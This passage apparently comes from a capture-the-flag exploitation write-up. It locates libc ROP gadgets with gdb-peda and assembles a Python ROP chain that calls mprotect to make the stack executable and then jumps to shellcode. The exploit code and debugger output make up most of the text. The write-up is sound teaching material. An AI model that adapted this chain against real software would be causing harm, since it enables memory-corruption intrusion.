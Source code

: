 We'll take the following gadgets:
* 0x000000000003a718: pop rax; ret;
* 0x0000000000021102: pop rdi; ret;
* 0x00000000000202e8: pop rsi; ret;
* 0x0000000000001b92: pop rdx; ret;
* 0x00000000000bb945: syscall; ret;

Lets check where libc is mapped into:
```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00402000         r-xp	/root/challenges/challenge16/challenge16
0x00601000         0x00602000         r--p	/root/challenges/challenge16/challenge16
0x00602000         0x00603000         rw-p	/root/challenges/challenge16/challenge16
0x00603000         0x00624000         rw-p	[heap]
0x00007ffff7a0e000 0x00007ffff7bce000 r-xp	/lib/x86_64-linux-gnu/libc-2.23.so
[...]
```

The libc base address is `0x00007ffff7a0e000`.

Lets double check it with a gadget:
```
gdb-peda$ x/2i 0x00007ffff7a0e000+0x000000000003a718
   0x7ffff7a48718 <mblen+104>:	pop    rax
   0x7ffff7a48719 <mblen+105>:	ret   
```

Seems alright!

## Updated exploit

We use the following ROP chain:
```
# shellcode
payload = shellcode
payload += "A" * (offset - len(shellcode))

# rop
payload += p64 ( libcBase + 0x000000000003a718 )        # 0x000000000003a718: pop rax; ret;
payload += p64 ( 10 )                   # syscall sys_mprotect

payload += p64 ( libcBase + 0x0000000000021102 )        # 0x0000000000021102: pop rdi; ret;
payload += p64 ( stackAddr )            # mprotect arg: addr

payload += p64 ( libcBase + 0x00000000000202e8 )        # 0x00000000000202e8: pop rsi; ret;
payload += p64 ( 4096 )                 # mprotect arg: size

payload += p64 ( libcBase + 0x0000000000001b92)         # 0x0000000000001b92: pop rdx; ret;
payload += p64 ( 0x7 )                  # protect arg: permissions

payload += p64 ( libcBase + 0x00000000000bb945) # 0x00000000000bb945: syscall; ret;

payload += p64 ( shellcodeAddr )
```
